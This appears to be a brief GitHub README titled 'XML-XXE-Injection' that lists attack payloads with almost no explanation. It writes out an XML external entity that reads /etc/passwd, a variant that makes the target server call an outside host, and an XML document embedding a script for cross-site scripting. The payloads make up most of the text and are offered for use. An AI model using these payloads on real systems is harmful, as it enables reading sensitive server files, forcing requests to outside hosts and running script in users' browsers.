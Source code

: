 # XML-XXE-Injection



 # it is work like this 
 
 1. <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ] >
 2. and  we call by this   &xxe;
         or 
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://ip/"> ] >
    &xxe;


Payload 

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
